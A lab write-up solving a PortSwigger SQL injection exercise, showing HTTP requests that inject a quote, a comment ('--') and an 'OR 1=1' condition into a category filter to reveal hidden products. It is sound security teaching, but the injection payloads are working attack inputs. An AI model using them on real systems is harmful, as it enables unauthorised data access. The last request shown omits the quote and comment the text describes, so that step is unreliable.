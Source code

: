 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Lab Description

This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform an SQL injection attack that causes the application to display details of **all products in any category, both released and unreleased**.

## Lab Solution

The lab environment is straightforward. As displayed in the picture below, we are presented with a simple gift shop application. The application allows us to choose which category of gifts we want to decide to narrow down the search.

![welcome-eshop](Assets/1.png)

The highlighted section indicates a potentially vulnerable URI with the category variable `filter?category=Tech+gifts`

![vulnerable-parameter2](Assets/2.png)

According to the [OWASP attack description](https://owasp.org/www-community/attacks/SQL_Injection)[^1], an SQL injection attack occurs when:

1. An unintended data enters a program from an untrusted source.
2. The data is used to dynamically construct a SQL query

To test for the possibility we are going to introduce a single quote character after `Gift`, effectively modified our HTTP request to look like this:

`SELECT * FROM products WHERE category = 'Gifts'' AND released = 1`

Since single quotes indicate the beginning and end of a string in SQL, in this case, if the SQL query is dynamically constructed, it should produce an error.

We captured the HTTP request and send to [Burp Suite Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater/using)[^2]


**Modified HTTP request**
```
GET /filter?category=Tech+gifts' HTTP/1.1
Host: <redacted>.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

**HTTP response**
```
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 2554
```

While testing for SQL injection vulnerabilities or attempting to take over a query, we may face different [HTTP status codes](https://www.sqlinjection.net/http-errors/)[^3]. The HTTP status code 500 is a generic error response displayed when the server encounters an unexpected condition that prevents it from fulfilling the request. The server usually returns this error when no other error code is suitable. However, while testing, if we get a 500 error page back, chances are that injection is occurring [^4].

To solve the lab assignment, we need to modify a query so it fulfills two conditions
1. display all products in any category,
2. display released and unreleased products.

We can start solving the second part, which is easier, by modifying the query by adding `--` characters:

`SELECT * FROM products WHERE category = 'Gifts'-- ' AND released = 1`

In this HTTP request, everything after `--` is rendered as a comment and, therefore, not the condition that only released products should be displayed is interpreted.

Bellow, we can see the new modified HTTP request from Repeater and OK HTTP response, meaning that the web page understood our HTTP request and is sending the page in return.

**Modified HTTP request 2**
```
GET /filter?category=Tech+gifts'-- HTTP/1.1
Host: <redacted>.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```
**HTTP response 2**
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 5156
```

After submitting a new HTTP request, we can see that the page's content changed, and we see a new gift compared to the previous picture, which indicates that we got rid of the released condition.

![all-tech-gifts-displayed](Assets/3.png)


As a last step, we need to cause the application to display all the products in any category, including those we do not know about. To do this, we will introduce a Boolean logic. [Boolean-based SQL Injection](https://www.acunetix.com/websitesecurity/sql-injection2/)[^5] is technique that relies on sending an SQL query, which forces the application to return a different result depending on whether the query returns a TRUE or FALSE result.

We modify our query by using the `OR` conditional statement and condition, which always will return true, such as 1=1.

`SELECT * FROM products WHERE category = 'Gifts' OR 1=1 -- ' AND released = 1`


Before sending the modified HTTP request, we need to URL encode the characters. Otherwise, the server sends an `HTTP/1.1 400 Bad Request` response.

**Modified HTTP request 3**
```
GET /filter?category=Tech+gifts+or+1%3d1 HTTP/1.1
Host: <redacted>.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```
**HTTP response 3**
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 5361
```

![solved-lab](Assets/4.png)

Thank you for reading and see you in the next lab!


[^1]: https://owasp.org/www-community/attacks/SQL_Injection
[^2]: https://portswigger.net/burp/documentation/desktop/tools/repeater/using
[^3]: https://www.sqlinjection.net/http-errors/
[^4]: https://www.risco.org.br/recursos/WhitepaperSQLInjection.pdf
[^5]: https://www.acunetix.com/websitesecurity/sql-injection2/
